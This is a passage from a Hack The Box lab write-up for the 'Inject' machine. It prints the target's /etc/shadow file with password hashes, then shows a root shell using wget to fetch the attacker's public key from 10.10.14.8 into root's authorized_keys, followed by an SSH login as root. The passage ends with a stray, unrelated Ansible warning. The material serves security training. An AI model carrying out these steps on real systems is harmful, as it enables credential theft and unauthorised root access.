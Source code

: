 ```
systemd-network:*:19046:0:99999:7:::
systemd-resolve:*:19046:0:99999:7:::
systemd-timesync:*:19046:0:99999:7:::
messagebus:*:19046:0:99999:7:::
syslog:*:19046:0:99999:7:::
_apt:*:19046:0:99999:7:::
tss:*:19046:0:99999:7:::
uuidd:*:19046:0:99999:7:::
tcpdump:*:19046:0:99999:7:::
landscape:*:19046:0:99999:7:::
pollinate:*:19046:0:99999:7:::
usbmux:*:19090:0:99999:7:::
systemd-coredump:!!:19090::::::
frank:$6$fBwyjkLHtSuUCpHx$6G9LujV0iop.QxbfQpwDcSaRWDDobBlVMo5.6gVJVnQabcbmFwdkwFfmJNAX27u3Cdg9ZO5977pCst7hF98kc/:19381:0:99999:7:::
lxd:!:19090::::::
sshd:*:19260:0:99999:7:::
phil:$6$Z.KhzrHH6PXCuNbO$dL9xyMTydwjYPcrunZb7OO9a0hCwrUPOeQfdum818rW4NPtsiXEji15NMmikgYBGLDbWPUfLIpCpOuCRxYedM.:19388:0:99999:7:::
fwupd-refresh:*:19389:0:99999:7:::
_laurel:!:19389::::::

```
We can then retrieve the shadow file from /etc.  
&nbsp;  

**SSH as Root**  

```
bash-5.0# wget http://10.10.14.8:8010/id_rsa.pub -O .ssh/authorized_keys
wget http://10.10.14.8:8010/id_rsa.pub -O .ssh/authorized_keys
--2023-06-21 12:31:06--  http://10.10.14.8:8010/id_rsa.pub
Connecting to 10.10.14.8:8010... connected.
HTTP request sent, awaiting response... 200 OK
Length: 101 [application/vnd.exstream-package]
Saving to: ‘.ssh/authorized_keys’

.ssh/authorized_key 100%[===================>]     101  --.-KB/s    in 0s      

2023-06-21 12:31:06 (2.26 MB/s) - ‘.ssh/authorized_keys’ saved [101/101]

```
Generate a keypair and transfer the public key to the target.  

```
┌──(matt㉿HackTheBoxKali)-[~/Inject]
└─$ ssh -i id_rsa root@10.10.11.204
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-144-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed 21 Jun 2023 12:31:54 PM UTC

  System load:           0.21
  Usage of /:            85.8% of 5.56GB
  Memory usage:          49%
  Swap usage:            0%
  Processes:             249
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.204
  IPv6 address for eth0: dead:beef::250:56ff:feb9:42d2

  => / is using 85.8% of 5.56GB
```

[//]: # (Project: HTB Machine Writeups - Generated with Python3)  
[//]: # (Title: HTB Inject Writeup)  
[//]: # (Author: M4773L)  
[//]: # (Date: 21/06/2023 - 05:04 PM)  
[//]: # (Date_Modified: ) 
[//]: # (WEBSITE_URL: http://m4773l.github.io)
[//]: # (GITHUB_REPO_URL: https://github.com/M4773L)
[WARNING]: provided hosts list is empty, only localhost is available. Note that